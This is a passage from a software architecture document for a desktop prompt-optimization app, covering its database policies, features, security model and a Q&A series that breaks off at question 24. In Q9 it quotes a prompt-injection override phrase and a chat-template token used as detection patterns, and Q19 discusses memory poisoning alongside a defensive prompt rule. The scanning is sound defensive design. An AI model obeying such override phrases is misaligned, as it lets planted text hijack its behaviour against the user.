**Pattern 2: Share-token visibility**. Rows with a non-null `share_token` are readable by authenticated users. Applied to `saved_prompts` (SELECT with `share_token IS NOT NULL`) and `prompt_collections` (SELECT with `share_token IS NOT NULL` AND `auth.uid() IS NOT NULL`). The migration `20260330_hmac_share_tokens.sql` tightened collection sharing to require authentication, preventing anonymous access.

**Pattern 3: Admin escalation**. The `is_admin()` function (SECURITY DEFINER) checks `profiles.role = 'admin'`. Admin-only policies exist on analytics tables (`daily_usage_summaries`, `hourly_usage_summaries`) and for viewing all profiles. The `close_stale_sessions` RPC is restricted to admins after the security hardening migration.

**Cross-table visibility**: The "Authenticated can view sharer profiles" policy on `profiles` allows any authenticated user to see the profile of a user who owns a collection with `share_token IS NOT NULL`. This enables showing the original creator's name when someone views a shared collection.

**Profiles UPDATE guard**: Users can update their own profile but the `WITH CHECK` constraint ensures `role` cannot be changed — `(NEW.role = OLD.role)` prevents privilege escalation.

**Deletion requests**: Users can INSERT and SELECT their own deletion requests. UPDATE is restricted to changing `pending` → `cancelled` only — users cannot mark their own request as `completed` (only the edge function can).

## 6.3 Index Strategy

The indexes target known query patterns from the Electron service layer:

| Index | Table | Pattern Served |
|-------|-------|---------------|
| `idx_chats_user_id` | chats | `getChats(userId)` — all chats for a user |
| `idx_chats_updated_at` | chats | Chat list sorted by recency |
| `idx_messages_chat_id` | messages | `getMessages(chatId)` — all messages in a chat |
| `idx_messages_created_at` | messages | Message ordering within a chat |
| `idx_optimizations_user_id` | optimizations | User's optimization history |
| `idx_profiles_email` | profiles | Lookup by email (OAuth flow) |
| `idx_profiles_role` | profiles | `is_admin()` function |
| Partial on `share_token WHERE NOT NULL` | collections, prompts | Share link resolution |
| `(user_id, memory_type)` | user_memory | Memory context building |
| `(user_id, started_at DESC)` | app_sessions | Session history queries |
| GIN on `metadata->'tags'` | chats | Tag-based filtering (future) |
| GIN on `metadata->'source_app'` | messages | Source filtering (future) |

**Gaps**: The `messages` table has no composite index on `(chat_id, created_at)`. For chats with hundreds of messages, `getMessages` does a sequential scan after the `chat_id` index lookup. A composite index would improve this. Similarly, `prompt_versions` has an index on `optimization_id` but not on `(optimization_id, version_number)`, which the version navigation UI queries.

## 6.4 Triggers and Write Amplification

Every message INSERT fires two triggers:

1. `trigger_update_chat_timestamp`: Updates `chats.updated_at = NOW()` for the parent chat.
2. `trigger_update_chat_statistics`: Counts all messages for the chat and updates `metadata.statistics.total_messages`.

The statistics trigger is expensive — it runs `SELECT COUNT(*) FROM messages WHERE chat_id = NEW.chat_id` on every message insert. For a chat with 500 messages, this is a sequential count of 500 rows triggered by every single insert. At scale, this would benefit from a counter column maintained by `+1` increment rather than a full count.

Additional `BEFORE UPDATE` triggers maintain `updated_at` timestamps on profiles, user_preferences, prompt_collections, saved_prompts, user_settings, and user_memory. These are lightweight (single column assignment) and have negligible cost.

Analytics triggers are also INSERT-driven: `usage_events` INSERT fires two upsert functions that maintain pre-aggregated `daily_usage_summaries` and `hourly_usage_summaries` tables. These use `ON CONFLICT DO UPDATE` for atomic increment, which is efficient.

## 6.5 Edge Functions

**`process-deletions`** (GDPR compliance): A Deno edge function designed to run on a daily cron schedule. It queries `deletion_requests` for rows with `status = 'pending'` and `scheduled_deletion_at <= NOW()`. For each, it calls `auth.admin.deleteUser(user_id)`, which CASCADE deletes all dependent data (profiles, chats, messages, etc.), then marks the request as `completed`. Authorization: requires the service role key as Bearer token.

**`share-view`** (public prompt sharing): Serves a shared prompt as either HTML (for browsers) or JSON (for API consumers) based on the `Accept` header. Validates the share token format with a regex (`/^[A-Za-z0-9_-]{20,50}$/`), loads the prompt with the owner's name using the service role key, and returns a styled HTML page with proper CSP, nosniff, and X-Frame-Options headers. This is the only way to view a shared prompt without authentication — the Edge Function bypasses RLS using the service role.

## 6.6 Schema Evolution and Migration Hygiene

The migration naming convention changed mid-project: early migrations use sequential numbers (`001_`, `002_`, `003_`) while later ones use timestamps (`20260315_`, `20260322_`, etc.). The timestamp format is preferred because it prevents ordering conflicts when multiple developers create migrations concurrently.

There are two `002_` and two `003_` migrations, which is a potential issue — Supabase CLI applies migrations in lexicographic order, so `002_add_profiles_and_preferences.sql` and `002_fix_user_rls.sql` both have the `002_` prefix. The `fix_user_rls` migration adds an INSERT policy on the `users` table, but `add_profiles_and_preferences` drops the `users` table entirely. If applied in the wrong order, the fix migration would fail. In practice, this works because the fix migration was likely created and applied first.

---

# Part 7: Feature-by-Feature Walkthrough

## 7.1 Chat (Main App)

**End-to-end flow**:
1. User types in the chat input → `ChatView` captures input, mode, skill, and files
2. User clicks Send → `Index.tsx:handleSubmit()` calls `window.electronAPI.sendMessage()`
3. Preload forwards to `app:send-message` IPC channel
4. `chat-handlers.ts` validates files (magic bytes), checks rate limit, checks network
5. If new chat: `chatService.createChat()` → Supabase INSERT into `chats`
6. `chatService.addMessage()` for the user message → Supabase INSERT into `messages`
7. Sends `message-sent` to renderer (optimistic UI: user message appears immediately)
8. `pythonClient.optimizeStream()` opens the streaming request
9. Each chunk → `optimization-chunk` IPC → `useSmoothStreaming.handleChunk()` → typewriter animation
10. Stream complete → `message-received` IPC → `handleFinalMessage()` → animation catches up → `onStreamingComplete()` → message committed to state
11. Fire-and-forget: `generateTitle()` (if first message), `memoryAnalyzer.analyzeAndStore()` (if memory enabled)

**Failure modes**:
- **Python service down**: `PythonClient.connectWithRetry()` exhausts retries → `humanizeLlmError()` returns "The AI service is not reachable" → `message-send-error` IPC → inline error in input bar
- **Network drops mid-stream**: WebSocket `close` event fires → `PythonClient` resolves with accumulated partial text → user sees partial response
- **Rate limit exceeded**: Electron-side `RateLimitService` returns false → "Daily message limit reached" error → send blocked before any network call

## 7.2 Overlay Optimize and Insert

**End-to-end flow**:
1. User types `@prompt` in any application (e.g., Chrome address bar)
2. Rust `WH_KEYBOARD_LL` hook detects trigger → fires callback with `TriggerAnchor{hwnd, triggerLen}`
3. Main process calls `overlayManager.open(isAuthenticated, anchorHwnd, prefill, triggeredByHook=true)`
4. Overlay window moves from off-screen to cursor position → `focusWindow()` via native bridge
5. Renderer receives `overlay:opened` → shows input with `triggeredByHook=true` (enables Insert button)
6. User types prompt, clicks Optimize → renderer sends `overlay:optimize` IPC
7. `overlay-ipc-handlers.ts` runs the same pipeline as chat: validate → rate limit → `pythonClient.optimizeStream()` → streaming
8. Chunks arrive as `overlay:optimization-chunk` → `streamingContent` state updates → raw display (no typewriter)
9. Complete → `overlay:optimization-complete` → turn is committed to `useTurns()`
10. User clicks Insert → renderer sends `overlay:insert` IPC
11. Main process calls `replaceAtLastAnchor(optimizedText)` → Rust module focuses the original window, selects `@prompt`, types replacement
12. Overlay parks off-screen

**Failure modes**:
- **Native bridge unavailable**: `replaceAtLastAnchor()` returns false → fallback: copy to clipboard + send Ctrl+V
- **Original window gone**: The HWND stored in `TriggerAnchor` may be invalid if the user closed the target window. `forceFocusWindow()` fails silently, and the text is still on the clipboard for manual paste

## 7.3 Voice Transcription

**End-to-end flow**:
1. User clicks mic button in `ChatView` or overlay `InputSection`
2. Renderer's preload script calls `navigator.mediaDevices.getUserMedia()` with echo cancellation + noise suppression
3. `MediaRecorder` starts with `audio/webm;codecs=opus`, 250ms timeslice
4. Each chunk → `ipcRenderer.send('transcription:audio-chunk', uint8Array)`
5. Main process → `transcriptionClient.sendAudioChunk(buffer)`
6. `TranscriptionClient.startSession()` opens WebSocket to Python `/ws/transcribe-stream`
7. Python relays audio to Deepgram Nova-2 via WebSocket
8. Deepgram returns transcription segments → Python forwards as `{type: 'transcription', text, accumulated}`
9. Main process → both windows receive `transcription:update` → text appears in input field

**Failure modes**:
- **Mic permission denied**: `getUserMedia()` rejects → `emitTranscriptionError('Microphone access failed')` → error shown in UI
- **Deepgram key missing/invalid**: Python logs error → sends `{type: 'error'}` → user sees error toast
- **Audio chunks arrive before WS open**: `TranscriptionClient` buffers in `pendingChunks` → flushes on `sessionReady`

## 7.4 Prompt Library and Sharing

**Save flow**: User clicks save icon on a message → `SavePromptModal` opens → user selects collection → `promptLibrary.save()` IPC → `PromptLibraryService.savePrompt()` → Supabase INSERT into `saved_prompts` → `prompt-library:loaded` event refreshes renderer state + local cache.

**Share flow**: User clicks Share on a prompt → `PromptLibraryService.createShareToken()` generates a `crypto.randomBytes(24).toString('base64url')` token → UPDATE `saved_prompts SET share_token = token` → returns `prmpt://share/p/{token}` deep link URL. The recipient opens this URL → OS routes to the Electron app → `handleDeepLink()` validates token format → sends `navigate-to-share` to renderer → router navigates to `/share/p/{token}` → `SharePromptPage` loads the shared prompt via IPC.

**Collection sharing**: Similar flow but generates a collection share token. After migration `20260330_hmac_share_tokens`, only authenticated users can view shared collections. The `get_shared_collection()` RPC (SECURITY DEFINER) loads the collection and its prompts using the service role, bypassing per-user RLS.

**Offline behavior**: Library mutations (save, delete, rename, create collection) are queued in `offlineQueue` when offline. `syncOfflineQueue()` drains the queue on reconnection, replaying each operation via the service layer.

## 7.5 Memory System

The memory system creates a persistent user profile that improves optimization quality over time:

1. After each optimization, `MemoryAnalyzer.analyzeAndStore()` calls `pythonClient.extractMemoryFacts(rawPrompt, optimizedText, skill)`
2. Python extracts structured facts (e.g., `{category: "user", key: "role", value: "React developer", confidence: 0.8}`)
3. `MemoryService.upsert()` inserts new facts or updates existing ones, incrementing `observation_count`
4. On the next optimization, `MemoryService.buildContextString()` concatenates all memory facts into a string
5. This string is passed as `custom_instructions` to the optimizer, personalizing the output

The system is opt-in: `user_settings.memory_enabled` controls whether extraction runs. Users can view, edit, and delete individual memories in `MemoryView`.

## 7.6 Auto-Update

1. `setupAutoUpdater()` configures `electron-updater` to check GitHub Releases
2. First check: 5 seconds after launch. Subsequent checks: every 4 hours
3. `update-available` → `update:available` IPC → renderer shows update notification
4. `download-progress` → `update:progress` IPC → renderer shows progress bar
5. `update-downloaded` → `update:downloaded` IPC → renderer shows "Restart to Update" button
6. User clicks → `update:install` IPC → `autoUpdater.quitAndInstall(false, true)` → app restarts with new version

**Failure handling**: All updater errors are captured by Sentry with `level: 'warning'` — update failures should not crash the app or block usage.

## 7.7 Account Deletion (GDPR)

1. User requests deletion in Settings → `deletion:request` IPC → `DeletionService.requestDeletion()` → INSERT into `deletion_requests` with `status: 'pending'`, `scheduled_deletion_at: NOW() + 30 days`
2. User can cancel within 30 days → `deletion:cancel` IPC → UPDATE `status = 'cancelled'`
3. After 30 days: `process-deletions` edge function (cron) finds mature requests → `auth.admin.deleteUser()` → CASCADE deletes all user data → marks request `completed`

---

# Part 8: System Design Patterns and Evolution

## 8.1 Security Model

**Layer 1 — Renderer isolation**: `contextIsolation: true` and `nodeIntegration: false` on both windows. The preload script uses `contextBridge.exposeInMainWorld()` to expose a curated API. The renderer cannot access `require`, `fs`, `child_process`, or any Node.js API.

**Layer 2 — Content Security Policy**: Dynamically constructed in `installCSP()`:
- `default-src 'self'` — blocks all external content by default
- `connect-src` whitelists Supabase (HTTPS + WSS), Python service (HTTP + WS), Sentry, and Cloudinary
- `script-src 'self'` — blocks inline scripts and external script loading
- `style-src 'self' 'unsafe-inline'` — allows Tailwind's runtime styles

**Layer 3 — JWT verification**: Every Python endpoint verifies the Supabase JWT. The token is attached via axios interceptor (HTTP) or query parameter (WebSocket). Expired or invalid tokens return 401/4001.

**Layer 4 — Row-Level Security**: Every database table has RLS enabled. Even if the JWT is compromised, RLS ensures a user can only access their own data. Service role access is limited to edge functions.

**Layer 5 — Input validation**: File attachments are validated with magic bytes (not MIME headers). Prompt text is length-checked. Share tokens are regex-validated. URL protocols in `shell:openExternal` are restricted to `http:` and `https:`.

## 8.2 Reliability Model

**Health checks**: The main process polls `pythonClient.healthCheck()` every 30 seconds. Status changes are broadcast to all windows via `python:unavailable` / `python:recovered` IPC.

**Retry strategies**:
- PythonClient WebSocket: exponential backoff [2s, 4s, 8s, 15s, 20s] with 90s total cap
- Offline queue: operations are retried on every reconnection with `retryCount` tracking
- UserService profile creation: 3 retries with backoff for the `handle_new_user` trigger race

**Graceful degradation**:
- Native bridge unavailable → keyboard hook disabled, clipboard fallback for text insertion
- Python service down → chat disabled, overlay disabled, but library/settings/auth still work
- Network offline → queue mutations, serve from cache, suppress spurious sign-outs
- Sentry unreachable → events silently dropped (never blocks app flow)

**Stream resilience**: PythonClient resolves with partial text on WebSocket close, timeout, or silence. The user always sees whatever was generated, never a blank error for a partially-completed stream.

## 8.3 Observability Model

Sentry is deployed across all three runtimes with coordinated trace propagation:

1. **Electron main → Python**: The `optimizeStream` method extracts the active Sentry span, serializes it as `sentry-trace` and `baggage` headers, and includes them in the WebSocket request. Python calls `sentry_sdk.continue_trace()` to link its spans to the Electron trace.

2. **PII scrubbing**: All three runtimes implement identical `beforeSend` hooks that redact fields matching `/prompt|content|message|text/i`. User prompts never reach Sentry in plain text.

3. **Sentry Logs**: All three runtimes use `Sentry.logger` / `sentry_sdk` structured logging with `_experiments: { enableLogs: true }`. This provides searchable log entries correlated with traces.

4. **Analytics**: Separate from Sentry — `AnalyticsService` tracks usage events in Supabase for product analytics. Events are buffered in-memory and batch-flushed every 10 seconds.

## 8.4 Scaling Evolution Path

**Current state** (single user, single device):
- Single Python service instance on Render.com free tier
- Single Supabase project with default connection pool
- No horizontal scaling, no CDN, no edge deployment

**10x scale** (hundreds of concurrent users):
- Move Python service to Render paid tier with multiple instances behind a load balancer
- Add Redis for WebSocket session affinity (sticky sessions for streaming)
- Add connection pooling (PgBouncer) for Supabase
- Rate limiting needs to move from in-memory dict to Redis
- Prompt cache needs to move from in-memory `TTLCache` to Redis

**100x scale** (thousands of concurrent users):
- Python service on Kubernetes with horizontal pod autoscaling
- Separate read replicas for analytics queries
- Move prompt optimization to a queue-based architecture (user sends request → gets job ID → polls for result) to handle cold starts and burst traffic
- CDN for shared prompt HTML pages (Edge Function → cached HTML)
- Consider moving from Supabase to self-hosted PostgreSQL for cost control

## 8.5 Architectural Refactor Roadmap

1. **Migrate `Index.tsx` monolith**: The 1400-line `Index.tsx` should be split into feature-specific hooks/contexts: `useChatManager`, `useLibraryManager`, `useNavigationManager`. This would reduce the ref-mirroring pattern and make each feature independently testable.

2. **Type-safe IPC**: Replace string-based IPC channel names with a shared type definition. Create a single `IpcChannels` type that the preload, main process handlers, and renderer all import. This would catch IPC contract mismatches at compile time.

3. **Event sourcing for offline**: Replace the current "queue and replay" offline model with event sourcing. Store all mutations as events, replay them in order on reconnection. This handles concurrent edits better than the current "last write wins" approach.

4. **WebSocket connection pooling**: Instead of one persistent WebSocket per client, implement a connection pool in the Python service that assigns streams to workers. This would allow the Python service to handle more concurrent streams with fewer connections.

5. **Database query optimization**: Add composite indexes for `(chat_id, created_at)` on messages and `(optimization_id, version_number)` on prompt_versions. Replace the `COUNT(*)` trigger with an increment counter.

---

# Part 9: 50 Senior Architect Questions and Detailed Answers

### Q1: Why was Electron chosen over Tauri for a desktop app in 2026?

Prmpt chose Electron for three concrete reasons. First, the app requires two independent BrowserWindows with different properties — the overlay needs `transparent: true`, `alwaysOnTop: true`, and DWM compositor pre-heating, which requires fine-grained control over the Chromium rendering pipeline that Tauri's WebView2 abstraction doesn't expose. Second, the preload/contextBridge security model provides battle-tested renderer isolation with ~70 IPC channels that would require significantly more boilerplate in Tauri's Rust-based command system. Third, the ecosystem — `electron-updater` for auto-updates from GitHub Releases, `@sentry/electron` for crash reporting, and the `BrowserWindow` API for frameless window controls — is more mature. VS Code, Cursor, Discord, and Slack all use Electron for similar reasons: when you need deep Chromium integration, the 150MB size overhead is an acceptable trade for development velocity and ecosystem depth. Tauri would be the right choice for a lightweight single-window app where binary size matters (e.g., a utility tool), but Prmpt's multi-window, multi-runtime architecture benefits from Electron's flexibility.

### Q2: Why is there no Redux, Zustand, or any global state management library?

The app's state flow is inherently IPC-driven: the renderer requests data, the main process responds asynchronously via events, and the renderer updates local state. This already provides unidirectional data flow without a store library. Adding Redux would create a second layer of indirection — the IPC event handler would dispatch an action, which would update the store, which would re-render the component. With direct `useState`, the IPC handler updates state in one step. The tradeoff is that `Index.tsx` is 1400 lines because all state lives in one component. The ref-mirroring pattern (creating `useRef` mirrors of `useState` values for use in stale closures) is error-prone and would be unnecessary with a store's selector pattern. If the app grows significantly, migrating to Zustand with selectors for each feature slice would be the recommended evolution. For the current feature set, the direct IPC-to-state approach is simpler and faster to iterate on.

### Q3: How does the streaming typewriter animation prevent visual jitter?

The `useSmoothStreaming` hook implements a dual-buffer architecture: `streamBuffer` holds the complete accumulated text from the backend, while `visualText` holds what the user sees. A `requestAnimationFrame` loop advances `visualText` toward `streamBuffer` at a rate that depends on the lag between them (1-10 characters per frame). There is a 1-second startup delay to let the buffer fill before animation begins, preventing the "stutter-start" where 3 characters appear and then pause. The animation runs at 30fps (33ms cap) to reduce React re-renders. When the page loses visibility, Chromium throttles rAF to 1fps — the hook detects `visibilitychange` and immediately flushes the visual buffer to prevent a "replay" effect. Each streaming session gets a unique `generationId` so stale animation loops from cancelled streams don't interfere. Compare this to ChatGPT's web interface, which renders chunks directly (no smoothing) — the perceived quality difference is significant for long responses.

### Q4: How does the overlay avoid the DWM flicker on transparent windows?

On Windows, calling `BrowserWindow.show()` on a transparent frameless window triggers a Desktop Window Manager (DWM) compositor transition animation that briefly shows a faded "ghost" first-frame. The `OverlayWindowManager` solves this by never hiding the window after initial creation. Instead, it uses a "park off-screen" pattern: the window is created once with `show: false`, then pre-heated by calling `showInactive()` while positioned at `(-9999, -9999)`. This initializes the DWM alpha compositor surface invisibly. After pre-heating, "opening" the overlay is just `setPosition(nearCursor)` and `focusWindow()` — no `show()` call. "Closing" is `setPosition(-9999, -9999)` and `blur()`. Because the window is never hidden/shown, DWM never re-initializes the alpha surface. Additionally, `backgroundThrottling: false` prevents Chromium from throttling the renderer when the window is "off-screen," ensuring the GPU framebuffer stays current. Raycast on macOS uses a similar technique — the window is kept alive and repositioned rather than created/destroyed per invocation.

### Q5: What happens if the Python service crashes mid-stream?

The `PythonClient` handles this at multiple levels. First, the WebSocket `close` event fires. The handler iterates through all `activeRequests`: any request with accumulated text resolves with that partial text instead of rejecting. The user sees whatever was generated before the crash. Second, a 3.5-second silence detection timer auto-resolves requests if no chunks arrive after the first chunk. Third, the 90-second hard timeout catches the case where the close event is missed. Fourth, the main process health check loop (every 30 seconds) detects the service going down and broadcasts `python:unavailable` to both windows, which can show degraded UI. When the service recovers, `python:recovered` is broadcast. This is a deliberate fail-open design — partial data is always preferred over a blank error screen.

### Q6: Why does the Python service use a separate process instead of embedding in Electron?

Three reasons. First, fault isolation: if the LLM pipeline crashes (OOM, dependency error, API timeout), only the Python process dies. The Electron app continues running, shows an error message, and retries on the next request. Embedding Python would crash the main process and kill the entire app. Second, independent deployment: the Python service can be updated, scaled, and debugged without shipping a new Electron binary. Third, dependency management: Python's AI ecosystem (litellm, tiktoken, PyMuPDF, numpy, faster-whisper) has complex native dependencies that would conflict with Electron's Node.js environment. A separate process with its own `venv` isolates these completely. The tradeoff is network latency (1-5ms locally, 50-300ms to Render.com) and the cold start problem on Render's free tier (30-50s). The `connectWithRetry` mechanism with 90s total elapsed cap accommodates this.

### Q7: How does the system handle offline-to-online transitions without data loss?

The `OfflineQueue` is a persistent FIFO queue stored as `{userData}/offline-queue.json`. When the user performs a mutation (save prompt, send message, rename chat) while offline, the operation is serialized with its full payload, assigned a UUID, and written to disk. When `NetworkMonitor` detects reconnection, it fires a callback that runs `syncOfflineQueue()` (for library operations) and `syncChatMessageQueue()` (for chat messages). Each operation is replayed through the normal service layer — if it succeeds, it's removed from the queue; if it fails, the retry count is incremented. This approach is simpler than a sync engine but has a known limitation: if the user makes conflicting changes on two devices while both are offline, the last replay wins. For Prmpt's single-device model, this is acceptable. Applications like Notion and Linear use CRDTs for multi-device conflict resolution, which would be the evolution path if Prmpt adds multi-device support.

### Q8: Why use OpenRouter instead of direct provider APIs?

OpenRouter provides a single API endpoint that routes to 100+ LLM providers with unified billing. This means Prmpt only needs one API key and one billing relationship, regardless of which model is used. The `OPTIMIZER_MODEL` environment variable can be changed from `openrouter/openai/gpt-4o-mini` to `openrouter/anthropic/claude-3-5-sonnet` without code changes. LiteLLM adds another layer of abstraction that handles the request/response format translation. The tradeoff is an extra network hop (request → OpenRouter → provider → OpenRouter → response) that adds 20-50ms latency, and dependency on OpenRouter's uptime. If OpenRouter goes down, all AI features are unavailable. Direct API keys for critical providers (with LiteLLM routing) would be the mitigation, but the operational simplicity of one API key outweighs the resilience concern at the current scale.

### Q9: How are file attachments validated for security?

File validation is defense-in-depth across two layers. In the Electron main process (`chat-handlers.ts`), `validateAttachedFiles()` checks: count (max 5), individual size (max 10MB, measured from actual buffer, not user-supplied metadata), total size (max 25MB), and MIME type via magic byte detection using the `file-type` library — not the renderer-supplied `mimeType` field. This is critical because a malicious renderer could claim a file is `image/png` when it's actually an executable. In the Python service (`document_parser.py`), the same validation is repeated: magic byte checks against known signatures, MIME whitelist, 10MB limit. Additionally, extracted text is scanned for prompt injection patterns (`ignore all previous instructions`, `<|im_start|>`, etc.) and capped at 8000 tokens. This dual-validation approach follows the zero-trust principle — neither the renderer nor the Electron main process fully trusts the other's validation.

### Q10: How does the skill selection algorithm work, and why not use embeddings?

The skill selector (`pipeline_v2/skills.py`) uses keyword counting: for each skill category (technical, creative, business, etc.), it counts how many category-specific keywords appear in the user input. The top 2 categories by score are selected; if none match, "general" is used. This is intentionally simple — keyword matching is deterministic, zero-latency, and requires no additional API calls or model loading.

An embedding-based approach (encode the input, compare against skill embeddings via cosine similarity) would provide better semantic matching — "build me a website" would match "technical" even without the keyword "code". However, it would add ~100ms latency for the embedding call, require maintaining embedding vectors for each skill, and introduce a dependency on an embedding model's availability. For 8 skill categories with ~20 keywords each, keyword matching achieves >90% accuracy in practice, which is "good enough" for selecting the right system prompt. The fallback to "general" handles the remaining 10%. If the skill taxonomy grows beyond 20 categories, embeddings would become necessary. Cursor's AI uses a similar keyword-to-prompt-template approach for its model selection.

### Q11: Why does the preload script handle transcription recording directly?

The preload script captures audio via `navigator.mediaDevices.getUserMedia()` and `MediaRecorder` rather than delegating to the main process. This is because `getUserMedia` requires a DOM context (renderer process) — the main process has no DOM and cannot access media devices. The preload script has access to both the renderer's Web APIs (MediaRecorder, getUserMedia) and the IPC channel to the main process (`ipcRenderer.send`). Audio chunks are sent as `Uint8Array` via IPC to the main process, which forwards them to the Python service. This is the same architecture Electron-based conferencing apps (like Slack's huddles) use — media capture in the renderer, processing in the main process or external service.

### Q12: How does the auth system handle the gap between Supabase trigger and profile creation?

When a user signs up via OAuth, the `handle_new_user` database trigger creates a profile row. But there's a race condition: the Electron app's session restore may query the profile before the trigger completes (triggers run asynchronously in PostgreSQL). `UserService.ensureProfileExists()` handles this with a retry strategy: it queries the profile, and if not found, waits briefly and retries up to 3 times. If the trigger never fires (catastrophic failure), it creates a "zombie" profile with minimal data. This defensive approach ensures the app never shows a blank state due to a database timing issue. Firebase handles this similarly with Cloud Functions — the client must poll for the completion of server-side setup. Supabase's trigger-based approach is simpler but has this known timing gap.

### Q13: What is the purpose of the `generationId` in `useSmoothStreaming`?

The `generationId` is a monotonically increasing counter that prevents stale animation loops from interfering with new streams. When the user starts a new stream (or switches chats, or stops generation), `generationId.current` increments. The animation loop captures the current `generationId` at the start of each frame and exits if it no longer matches. Without this, a scenario like: start stream → switch chat → start new stream would have two animation loops running simultaneously, both writing to `setStreamingMessage()`, causing text from chat A to appear in chat B. The generationId acts as a cancellation token — similar to `AbortController` in fetch requests or CancellationToken in C#.

### Q14: Why are there two separate React trees instead of one app with conditional rendering?

The overlay and main app run in separate `BrowserWindow` instances because they have fundamentally different window properties: the overlay is `transparent: true`, `alwaysOnTop: true`, `frame: false`, `resizable: false`, with custom DWM compositor handling. The main app is opaque, not always-on-top, has a frame (rendered custom via `AppLayout`), and is resizable. These properties are set at window creation time and cannot be changed afterwards in Electron. A single React tree in one window would require destroying and recreating the window to switch between these configurations, which is slower than having two pre-created windows with their own React trees. The tradeoff is code duplication — some components (MarkdownContent, ZoomIndicator, ScrollArea) are shared, but the streaming logic and state management differ between the two trees.

### Q15: How does RLS prevent data leaks in the sharing feature?

The sharing feature creates a tension: shared content must be readable by non-owners, but all other data must be owner-only. The solution uses two RLS patterns: shared prompts have a SELECT policy that allows read access when `share_token IS NOT NULL`, but only for the specific columns needed (title, content, creator name). The migration `20260330_hmac_share_tokens` added a critical tightening: shared collections require `auth.uid() IS NOT NULL`, preventing anonymous access. The "Authenticated can view sharer profiles" policy allows seeing the creator's name without exposing their full profile. The `get_shared_collection()` RPC is `SECURITY DEFINER` — it runs with elevated privileges to bypass per-user RLS, but its implementation only returns the specific collection matching the token. This is a common pattern in Supabase: use SECURITY DEFINER functions as controlled escape hatches from RLS.

### Q16: What is the concurrency model of the Python service?

The Python service runs on uvicorn with a single async event loop. CPU-bound work (LLM API calls via litellm, which are technically I/O-bound but blocking due to synchronous generator iteration) is offloaded to a thread pool via `loop.run_in_executor()`. An `asyncio.Semaphore` with a default of 50 limits concurrent optimization tasks. This means at most 50 users can be actively streaming simultaneously. The 51st request blocks on `async with _optimize_semaphore`. The thread pool size defaults to Python's `ThreadPoolExecutor` default (typically `min(32, os.cpu_count() + 4)`). On a 2-core Render instance, this means ~6 threads. Each thread holds a blocking litellm generator, so the effective concurrency is limited by thread count, not the semaphore. At 100x scale, this would need to move to a worker-queue architecture (Celery/RQ) with GPU-backed inference servers.

### Q17: How does the system handle token refresh without disrupting active streams?

When Supabase fires `TOKEN_REFRESHED`, the main process updates `authState.currentAccessToken` and calls `pythonClient.reconnect()`. This closes the existing WebSocket and opens a new one with the new token. But what about active streams? Any in-flight `StreamRequest` objects that were using the old WebSocket will have their `close` handler fire, which resolves them with accumulated partial text. The renderer receives the partial response and treats it as a completed message. The next request will use the new WebSocket with the fresh token. This means a token refresh mid-stream causes the user to see a partial response — an acceptable tradeoff compared to dropping the response entirely or sending requests with an expired token. Discord handles WebSocket token refreshes similarly — the client reconnects with RESUME to continue where it left off, but Prmpt's stateless optimization model doesn't need RESUME semantics.

### Q18: Why is the daily rate limit checked in both Electron and Python?

The Electron-side `RateLimitService` queries `usage_events` count from Supabase and caches the result. This provides fast client-side blocking without a round-trip to the Python service. The Python-side `_check_rate_limit()` uses an in-memory dict keyed by `user_id:date`. This provides server-side enforcement even if the Electron client is modified or bypassed. The dual enforcement follows the principle: "client-side limits for UX (fast feedback), server-side limits for security (tamper-proof)." If the limits disagree (e.g., Electron cache says 49/50 but Python says 50/50), the server's decision is authoritative — the request fails with a rate-limit error message sent via WebSocket.

### Q19: How does the memory system avoid poisoning with incorrect facts?

Several safeguards: (1) Confidence is capped at 0.95 — inferred facts never reach 1.0, which is reserved for explicit user statements. (2) The system prompt instructs extraction only when confidence >= 0.5. (3) `observation_count` tracks how many times a fact has been reinforced — frequently observed facts are more reliable. (4) Users can view and delete individual memories in `MemoryView`. (5) The memory context is passed as "secondary enrichment" in the system prompt — the instruction explicitly states "Do not let user memory override the user's explicit intent." (6) Memory can be disabled entirely via `user_settings.memory_enabled`. The risk of poisoning is that a single unusual prompt could create a false fact that skews all future optimizations. The confidence cap and explicit user control mitigate this. A more sophisticated approach would use a decay function — facts not reinforced in N days lose confidence — but the current approach is adequate for single-user scenarios.

### Q20: What happens when the overlay is opened via keyboard hook while the user is mid-sentence in another app?

The Rust keyboard hook detects `@prompt` as 7 consecutive keystrokes matching the pattern. At detection time, it captures the foreground window's HWND and fires the callback. The main process opens the overlay near the cursor. Importantly, the overlay steals focus using the Win32 `AttachThreadInput` + `SetForegroundWindow` technique, which bypasses the normal foreground lock. When the user completes their optimization and clicks Insert, the native bridge calls `replaceAtLastAnchor()` which: (1) focuses the original window using the stored HWND, (2) selects backward 7 characters (Shift+Left × 7) to select `@prompt`, (3) types the replacement text character-by-character using `KEYEVENTF_UNICODE`. This works even in applications that intercept standard paste (like terminal emulators) because it simulates individual keystroke events rather than clipboard operations.

### Q21: How is the CSP configured and why is `unsafe-inline` needed for styles?

The CSP is dynamically constructed in `installCSP()` from environment variables. `unsafe-inline` is required for `style-src` because Tailwind CSS generates inline styles at runtime (e.g., for dynamic transforms, transitions, and the overlay's glow effect which sets `background` via `element.style`). Without `unsafe-inline`, all dynamically applied styles would be blocked, breaking the UI. A stricter alternative would be CSP nonces or hashes, but these require Tailwind's PostCSS plugin to inject nonces at build time, which adds build complexity. The current approach is the same used by VS Code's Electron app — `unsafe-inline` for styles is considered acceptable when `script-src` is strict (no `unsafe-inline` or `unsafe-eval` for scripts).

### Q22: Why does the overlay use `useTurns` instead of the flat message array used by the main app?

The overlay has a fundamentally different interaction model. In the main app, users scroll through a long conversation history with branching (edit creates a new branch). In the overlay, users optimize one prompt at a time with versions — "show me version 2 of 3 for this turn." The `useTurns` hook models this as a sequential list of turns, where each turn has user versions (edits) and assistant versions (regenerations). The flat message array with `useMessageTree` branching would be overkill for the overlay's linear flow and would require adapting the tree's branch navigation UI into the overlay's compact layout. The design decision is that the overlay optimizes for quick, focused interactions (optimize → copy/insert → close) while the main app optimizes for extended conversational exploration.

### Q23: How does the event buffer handle backpressure when Supabase is slow?

The `EventBuffer` accumulates events in memory and flushes every 10 seconds or when 50 events accumulate. If the flush to Supabase fails (network error, timeout, Supabase outage), the batch is written to `{userData}/offline-cache/analytics-{userId}.json` on disk. On the next flush cycle, `drainOfflineQueue()` is called, which reads the persisted events and attempts to re-insert them. If re-insertion fails again, they remain on disk. The buffer has no explicit cap on in-memory events — under normal operation (10s flush), at most ~50 events accumulate. Under sustained Supabase outage, events accumulate in memory indefinitely until the app restarts (when they're lost) or until a flush succeeds. A more robust approach would persist every event to disk immediately and read from disk on flush, but for non-critical analytics data, the current approach's simplicity is justified.

### Q24: Why was the `users` table dropped in favor of `profiles`?

